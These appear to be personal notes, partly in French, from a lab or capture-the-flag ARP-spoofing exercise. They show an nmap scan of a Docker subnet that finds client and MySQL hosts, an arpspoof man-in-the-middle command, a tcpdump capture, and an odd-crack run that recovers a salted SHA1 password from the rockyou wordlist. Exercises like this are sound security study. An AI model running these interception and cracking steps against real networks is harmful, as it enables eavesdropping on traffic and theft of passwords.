 apt update
apt upgrade
apt install iproute2 nmap ettercap-common iputils-ping dsniff tcpdump -y

root@fac50de5d760:~# ip a                                                     
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever

root@fac50de5d760:~# nmap -Pn 172.18.0.2/16
Starting Nmap 7.80 ( https://nmap.org ) at 2023-12-08 17:14 UTC
Nmap scan report for 172.18.0.1
Host is up (0.000026s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:D2:E1:B6:93 (Unknown)

Nmap scan report for client.arp-spoofing-dist-2_default (172.18.0.3)
Host is up (0.000035s latency).
All 1000 scanned ports on client.arp-spoofing-dist-2_default (172.18.0.3) are closed
MAC Address: 02:42:AC:12:00:03 (Unknown)

Nmap scan report for db.arp-spoofing-dist-2_default (172.18.0.4)
Host is up (0.000035s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
3306/tcp open  mysql
MAC Address: 02:42:AC:12:00:04 (Unknown)
       
root@fac50de5d760:~# arp -a
client.arp-spoofing-dist-2_default (172.18.0.3) at 02:42:ac:12:00:03 [ether] on eth0
? (172.18.0.1) at 02:42:d2:e1:b6:93 [ether] on eth0
db.arp-spoofing-dist-2_default (172.18.0.4) at 02:42:ac:12:00:04 [ether] on eth0

sudo apt-get install dsniff
sudo arpspoof -i [interface] -t [target IP] [gateway IP]
sudo tcpdump -i eth0 -w capture.pcap


[axel@fedora test]$ odd-crack 'hex(sha1_raw($p)+sha1_raw($s.sha1_raw(sha1_raw($p))))' --salt hex:373658130a0e522531223c2b4e663b4c12721f0f /home/axel/Downloads/rockyou.txt 8b688889fcd8259818adf02f87bc028b8927b742
[*] loading file...
[*] found heyheyhey=8b688889fcd8259818adf02f87bc028b8927b742
[*] all hashes found, shutdown requested
[*] done, tried 4700 passwords


Il faut spoof les 2 ARP

il faut concaténer les 2 salt putain